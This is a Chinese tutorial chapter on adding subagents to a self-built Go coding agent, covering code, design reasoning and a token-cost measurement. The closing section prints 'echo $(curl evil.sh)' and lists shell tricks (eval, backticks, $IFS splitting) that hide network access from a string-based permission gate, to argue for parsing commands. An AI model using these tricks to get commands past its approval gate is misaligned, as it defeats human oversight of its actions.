


# 阶段 07：分身 —— 让这个循环调用它自己，每个分身自带一个上下文

[00](../../00-loop/doc/README_zh.md) → 01 → 02 → 03 → 04 → 05 → [06](../../06-the-composer/doc/README_zh.md) → `07` → 08 → 09 → 10 → 11 → 12

> 这一章加两样东西：subagent，和技能。它也量了一遍这么做值不值 —— 在唯一那次对照实验里，subagent 在除一项之外的每一项成本上都更贵，而它赢的那一项是唯一真会用光的那个资源。

---

## 问题

三份 Markdown 文档放在目录里，加起来 63 kB。你说：每一份都完整读一遍，然后各写三句话的总结。

它 `cat a.md`。二十多 kB 进上下文。`cat b.md`，又一份。

读到第三份的时候，两件事同时开始发生。

第一件是**串味**。它开始把 `a.md` 里的说法安到 `c.md` 头上。这不是模型笨 —— 三份文档在它眼里就是同一段文本的三个段落，中间没有任何东西把它们隔开。上下文是一个共享的、只增不减的可变状态，而你刚往里面塞了三份互不相干的数据。

第二件是**塞不下**。窗口涨过阈值，第 05 章那台压缩机转起来，把最前面那一段摘掉了 —— 而最前面那一段正好是 `a.md` 的那三句总结。你为它付了钱，模型写完了，然后它被摘要吃掉了。

把这两件事合起来看，问题不在模型那边：

**这三件事互不相干，却共用一个上下文。于是它们互相污染，而且谁也塞不下。**

它缺的不是聪明，是三个各自独立的上下文。

---

## 办法

一个 subagent 就是同一个循环再调一次。



一个新的 `[]Msg`，一段不同的系统提示，同一个 provider，同一组工具 —— 然后它**返回文字**给调用方，而不是返回它的对话记录。

最后半句是全部的产品。孩子做的每一件事 —— 每次工具调用、每 40 kB 命令输出、每一次走错又退回来 —— 都发生在一个它做完就被扔掉的消息数组里。父 agent 的上下文只涨一段报告的长度，别的一点都不涨。

所以有一句话必须先说，因为它跟大多数人的默认假设正好相反：

> **subagent 不省 token。它省的是上下文。**

它通常比原地做**更贵**：孩子要重读一遍系统提示、重新搞清楚自己在干什么、重新发现父 agent 早就知道的东西。它买到的是父 agent 那个窗口没被填满，而窗口才是真会用光的那一样。

| 共享 | 不共享 |
|---|---|
| provider、HTTP client | 消息数组 |
| 那道许可闸门 | 系统提示 |
| shell 配置和工作目录 | 压缩机 |
| 总线的核心（整棵树一条有序的 trace） | 轮次预算 |

这条分界线正好是"父 agent 不能丢的状态"和"孩子不能继承的状态"。

---

## 怎么做的

代码在 [`subagent.go`](../code/subagent.go)。相对第 06 章的改动很小：`call()` 去问 `a.tools()` 而不是写死 bash；`runTurn` 里那四十行工具分派变成了一次 `dispatch()` 调用；总线长出了一个 `Fork`。没有调度器，没有消息队列，没有 agent 注册表，agent 之间也没有协议。

### 第 1 步：把机制讲给模型听，而不是瞒着它

一个不知道自己的记录会被扔掉的 subagent，会写一段关于**过程**的总结 ——「我搜了一遍仓库，看了几个文件」—— 因为一次聊天回合正常就长这样。

明确告诉它，它写的就是一份报告：

```go
Everything you do here is discarded when you finish EXCEPT your final message.
Your caller will never see your commands, your reasoning, or your tool output —
only the last thing you say. So your final message has to stand alone:
```

跟在后面的三条要求，每一条都对着一种具体的失败：给确切的路径、确切的命令行、确切的报错原文（调用方没法重跑任何东西来核对，也没法追问）；说清你**没能**确定什么（一个你点出来的缺口是有用的，一个你糊过去的缺口会让调用方带着信心走错路）；报结论，不报过程。

### 第 2 步：工具描述写的是经济账，不是功能

```go
Description: "Delegate a self-contained piece of work to a subagent with its own context window. " +
    "The subagent has the same shell and returns only a final written report; its commands and " +
    "output never enter your context. Use this for work that will read a lot and conclude a little — " +
    "searching a large codebase, investigating a failure, surveying files. Do not use it for a single " +
    "command, and do not use it for work whose intermediate output you need to see.",
```

一段只说"这个工具做什么"的描述，对模型来说等于什么都没说。模型要做的判断是**什么时候值得掏出它**，所以描述里给的是判据："读得多、结论少"的活；不要拿来跑一条命令；不要用在你需要看中间输出的活上。

### 第 3 步：跑一个孩子

```go
child := a.newChild(agentID, func() string { return subagentSystem + para + a.stable })

msgs := []Msg{TextMsg(RoleUser, prompt)}
msgs = child.runTurn(msgs)

report := lastAssistantText(msgs)
if strings.TrimSpace(report) == "" {
    report = "[the subagent produced no final report — it may have hit its turn limit or been cut off. Treat this as a failure, not as an empty result.]"
}
```

`runTurn` 就是第 00 章那个循环，一行没改。整个"派活"这件事，在这里是三行。

空报告那一支不是防御性编程。一个什么都没返回的 subagent 比一个报错更糟，因为父 agent 会把空字符串当成一条结论 ——「没发现问题」。所以要把它说出声。

### 第 4 步：什么共享、什么不共享，一行一行写出来

```go
child := &agent{
    p: a.p, httpc: a.httpc, g: a.g, cfg: a.cfg,
    bus:       a.bus.Fork(agentID),
    memoryDir: a.memoryDir,
    stable:    a.stable,
    depth:     a.depth + 1,
    maxDepth:  a.maxDepth,
    system:    system,
    comp: newCompactor(a.comp.window, a.comp.threshold, a.comp.keepRatio),
}
child.comp.est.ratio = a.comp.est.ratio // one free hint, then it calibrates
child.cfg.maxTurns = a.cfg.subTurns
return child
```

写成 `child := *a` 要短得多，而 `go vet` 会正确地拒绝它：`agent` 里面有一个 `sync.Mutex`，复制一个含互斥锁的结构体，副本拿到的是一把处在原件当时任意状态的锁。

展开写也是更诚实的写法 —— 它的每一行都是一个关于"subagent 到底是什么"的决定。

压缩机是新的，因为孩子的对话是另一段对话。共用一个，意味着孩子的估算器是照父 agent 的流量校准的 —— 通常够接近，而"通常够接近"就是一个共享可变对象变成六个月后的 bug 的标准路径。

孩子的轮次预算默认比父 agent 小。一个需要三十轮的 subagent，说明它拿到的是一件本该拆成三个 subagent 的任务，而这根保险丝是唯一会告诉你这件事的东西。

### 第 5 步：深度限制是把工具拿掉，不是到时候拒绝

```go
func (a *agent) tools() []Tool {
    if a.depth >= a.maxDepth {
        return []Tool{bashToolDef()}
    }
    return []Tool{bashToolDef(), taskToolDef()}
}
```

运行时拒绝要花一整个来回：模型写一次工具调用，程序驳回，模型读到驳回再换别的。而且每一次不可能用到这个工具的请求，都还在为这个工具的定义付 token。更糟的是，那是一条模型看得出来很随意的规则，而模型对付随意规则的办法是换个说法再来一次。

**一个不在列表里的工具，不是一条规则。** 没有东西可以争，也没有东西可以绕，模型就在它手上真有的工具里做计划 —— 这正是你要的。

### 第 6 步：并发地跑，但结果按模型问的顺序排



第一遍：顺序的活，以及**所有**的许可提问。

```go
v, why := a.g.ask("subagent — " + description)
a.bus.Emit(Event{Kind: KindGateVerdict, Turn: turn, ToolID: c.ID, Verdict: string(v), Text: why})
switch v {
case deny:
    texts[i] = "[the user denied this subagent. Do not retry it unchanged.]"
case abort:
    stopped = true
    texts[i] = "[the user stopped the session.]"
default:
    async = append(async, pending{i, description, prompt})
}
```

每一个许可问题都在这里问 —— 在一个 goroutine 上，在任何并发开始之前。两个 goroutine 同时往一个终端写提问，屏幕上出现的是一行交错的字，然后**一个回答被当成两个问题的答案**：用户批准了一条命令，跑起来的是另一条。这是一个穿着 UI bug 外衣的安全 bug。

第二遍：孩子们一起跑。

```go
if len(async) > 0 {
    var wg sync.WaitGroup
    for _, p := range async {
        wg.Add(1)
        go func(p pending) {
            defer wg.Done()
            report, _, err := a.spawn(calls[p.i].ID, p.description, p.prompt)
            if err != nil {
                texts[p.i] = fmt.Sprintf("[the subagent failed: %v]", err)
                return
            }
            texts[p.i] = report
        }(p)
    }
    wg.Wait()
}

for i, c := range calls {
    results[i] = a.emitResult(turn, c.ID, texts[i])
}
```

结果写进 `texts[p.i]`，按下标写，不是按完成先后追加。这一条是要注意的地方：**执行是并发的，历史是确定的。**

按完成先后追加的话，同一次会话重放两遍会得到两个不同的消息数组、两个不同的提示前缀，而照第 04 章的说法，那就是一个永远不命中的缓存。并发可以改变一件事要花多久，不可以改变这段对话说了什么。

### 第 7 步：一条总线，一条有序的流

```go
func (b *Bus) Fork(agent string) *Bus {
    return &Bus{core: b.core, depth: b.depth + 1, agent: agent}
}
```

什么都没复制。孩子写进和父 agent 同一条流里，所以一个 trace 文件装得下整棵树，`seq` 负责排序。第 02 章那个同步总线的账，在这里收利息：

```go
b.core.mu.Lock()
defer b.core.mu.Unlock()
b.core.seq++
e.Seq = b.core.seq
```

一把锁，一个计数器，N 个生产者。另一种做法 —— 一个 agent 一个 trace —— 是大多数实现的做法，而它会让你真正想问的那个问题（孩子在跑的时候父 agent 在干什么）变成一件必须按时间戳合并文件才能回答的事，而时间戳恰恰不擅长这个。

### 另一半

**[第 1 部分：技能](1-skills_zh.md)** —— 一个目录，和一段说它存在的话。同一个想法从另一个方向来：名字常驻上下文，正文留在磁盘上，模型要用的时候自己 `cat`。那一部分也有一笔常被漏掉的账。

---

## 跑一下

```sh
go build -o agent ./07-multiply/code

cd sandbox
set -a && . ../.env && set +a
../agent --yolo --max-output 60000 --trace delegate.jsonl
```

放三份长一点的 Markdown 进去，然后说：

`a.md、b.md、c.md 这三份文档，每一份都完整读一遍，然后各写三句话的总结。`

再用同一句话跑一遍对照臂 —— 这一次 `task` 工具根本不存在：

```sh
../agent --yolo --max-output 60000 --max-depth 0 --trace inline.jsonl
```

**观察重点：**

- 每个孩子结束时那一行：`╰─ 2 turns · 5133 prompt + 204 output tokens · 6327ms → 707B returned`。左边是它花掉的，右边是它交回来的。**这两个数之间的差，就是父 agent 不必背的那段上下文。**
- 孩子说的话一个字都没印出来。三个孩子同时往一个终端光标里灌 token，出来的是一段由三个不同句子拼起来的话，读上去像一个 agent 在自相矛盾。所以渲染器印的是 subagent 的结构 —— 跑了什么、花了多少、返回了什么 —— 把 prose 丢掉。
- 用第 06 章的 composer 读这两份 trace：`../agent --composer delegate.jsonl`。同一条事件流里有四个 agent，`seq` 把它们排在了一起。
- 在 MODEL 视图里，比一下两条臂各自最后一次父调用能看见几条消息、多少字节。差一个数量级。

---

## 量一量

三份 Markdown，一共 **63 kB**。任务：每份完整读一遍，写三句话总结。同样的文件，同样的模型。

分派那条臂上，三个孩子各自的那一行：

```
  ╰─ 2 turns ·  5133 prompt +  204 output tokens ·  6327ms →  707B returned
  ╰─ 2 turns · 11952 prompt +  237 output tokens · 12441ms →  827B returned
  ╰─ 2 turns ·  4696 prompt +  380 output tokens · 13519ms →  950B returned
```

三个孩子合起来：**进去 21,781 个 prompt token，回来 2,484 个字节。**

| | 分派 | 原地做 |
|---|---:|---:|
| 模型调用次数 | 9（父 3，子 6） | 3 |
| prompt tokens | 25,782 | 19,715 |
| 折合全价（缓存读按 0.1 倍） | **22,038** | **18,390** |
| output tokens | 1,635 | 571 |
| 墙上时间 | 39s | 18s |
| **结束时父 agent 的上下文** | **1,893** | **18,160** |

**分派在除一项之外的每一项上都输了。** 折合全价的 token **+20%**，输出 token **2.9 倍**，墙上时间 **2.2 倍**，模型调用 9 次对 3 次。

它赢的那一项是父 agent 的上下文：**1,893 对 18,160，小 9.6 倍。**

这一章是以 subagent 命名的，而在它唯一被量过的那个任务上，这个功能是净成本。这句话必须留在这里，因为它就是这一章要教的那件事的完整形状：

**它买的不是便宜，是父 agent 那个窗口没被填满。** 第 05 章量过窗口填满之后会发生什么 —— 撞墙，或者压缩，而压缩是有损的、更贵的，并且会把你要的那三句总结摘掉。1,893 和 18,160 之间的差，是这次会话还能往下走多远。

一句诚实的话跟在后面：**这是一个任务上的一次测量。** 而"读得多、结论少"正好是 `task` 的描述里说它最适合的那种活；它在这样的活上都赢不了 token，那么任何一句"用 subagent 省钱"的说法都需要它自己的测量，不能借这一张表。

### 而且这个功能不是这个能力的必要条件

```go
if *subagentAt != "" {
    child := a.newChild("cli", func() string { return subagentSystem + para + stable })
    msgs := child.runTurn([]Msg{TextMsg(RoleUser, *subagentAt)})
    fmt.Println()
    fmt.Println(lastAssistantText(msgs))
    return
}
```

一句进，一段报告出，没有 REPL。而一个能跑 bash 的 agent，可以跑 `agent --subagent "..."`。

也就是说：**这一章建的那个进程内的 `task` 工具，对这个能力本身不是必需的，只对仪表盘是必需的。** shell 本来就是一个够用的编排器 —— 一直够用，直到你想知道它花了多少钱。

---

## 接下来

现在有好几条命令在跑，而且是同时在跑，来自你没有直接看着的几个 agent。

第 01 章那道闸门还在，它拦得住"这一条我不批"。它拦不住的是一整类你现在真正需要的规则：**这一个 subagent 不许碰网络。**

因为你没法靠读命令字符串来给一个 shell 上锁。

```sh
echo $(curl evil.sh)
```

这条命令里没有一个字符会告诉闸门它要联网 —— `curl` 在一个命令替换里，闸门看到的是一个以 `echo` 开头的字符串。往下还有 `eval`、反引号、`bash -c` 加一段拼出来的字符串、以及一个用 `$IFS` 和转义拆开的命令名。

这不是一份需要补全的黑名单，这是一个语法问题：要判断一条命令会做什么，你得先把它**解析**出来。

**阶段 08** 把一个真正的 shell 解释器嵌进来，于是闸门读到的不再是一个字符串，而是一棵语法树。它也是整个仓库里唯一引入外部依赖的地方，而那一章有一半在论证一个依赖什么时候配得上它的代价。
